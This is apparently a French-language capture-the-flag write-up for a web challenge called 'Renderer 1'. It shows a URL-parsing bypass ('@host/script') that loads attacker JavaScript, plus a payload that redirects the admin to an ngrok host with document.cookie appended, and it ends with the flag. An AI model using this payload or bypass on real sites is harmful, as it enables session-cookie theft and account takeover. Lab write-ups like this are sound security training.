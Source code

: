 # Renderer 1 🔍
```
200 pts
```

## Description
```
[FR]
xss me, hacker et récupère les cookies de l'admin.

[EN]
xss me, hacker and stole admin cookie.

Author: 5c0r7

http://ctf.hackerlab.bj:1024
```

> Ce challenge nous dirige vers une application web web remote renderer JS.
<image src="File/js1.png">
  
> Cette application dispose d'un outil qui permet d'interpréter un script JS lorsque le chemin du fichier est fourni.

> Nous avons décidé d'envoyer un simple lien https://google.com pour observer le comportement de l'outil. La réponse obtenue est : `Admin is unable😫 to read your remote JS file: https://hackerlab.bjhttps://google.com.js`

<image src="File/js2.png">
  
> L'outil préfixe notre chemin avec `https://hackerlab.bj` puis ajoute l'extension `js`.

> Dans la section *Report* de l'application, nous avons la possibilité d'envoyer un lien à l'admin, à condition qu'il respecte la politique de même origine *same origin* et ait le même schéma d'url que l'application. ```The link you have submitted doesn't have the same origin and scheme with my application🤨. Ex: http://54.37.70.250```
  
> Notre objectif maintenant est de parvenir à charger notre script JS dans l'outil de rendu, puis d'envoyer le lien ainsi formé à l'admin, car il respecte la politique de même origine et le schéma URL de l'application. ```http://54.37.70.250:1024/renderer.php?url=https%3A%2F%2Fgoogle.com```

<image src="File/js3.png">

> Après quelques recherches, nous avons découvert un article sur le Bypass de Format URL. Cet article présentait des moyens intéressants de réaliser des redirections vers des domaines que nous controlions.[Source](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#domain-confusion)

> Nous avons donc decidé d'envoyer comme payload ```@attacker.com/script```

<image src="File/js4.png">
  
> Bingo ! L'outil tente d'interpréter le fichier *script.js* du site *attacker.com*.

> Nous allons utiliser *ngrok* pour créer un tunnel depuis internet vers notre serveur web local.

<image src="File/js5.png">
  
> Nous allons maintenant créer un serveur HTTP en local et y placer un fichier *script.js* contenant notre charge utile ```document.location="http://4b4f-41-138-89-232.ngrok-free.app/?c="+document.cookie;``` pour voler les cookies de l'admin.

<image src="File/js6.png">
  
> Nous allons envoyer à l'outil le chemin ```@4b4f-41-138-89-232.ngrok-free.app/script```. Puis copier le lien qu'il génère.

<image src="File/js7.png">
  
> Nous pouvons maintenant envoyer ce lien ```http://54.37.70.250:1024/renderer.php?url=%404b4f-41-138-89-232.ngrok-free.app%2F```script à l'admin via *Report*.

<image src="File/js8.png">
  
> Une fois le lien envoyé à l'admin, nous pouvons vérifier notre serveur pour voir les cookies de l'admin, qui ne sont rien d'autre que le flag.

<image src="File/js9.png">
  
# Flag

```CTF_UR1_P@rS!ng_C0nfUs!On_3xpl017_hehehe``` 😎
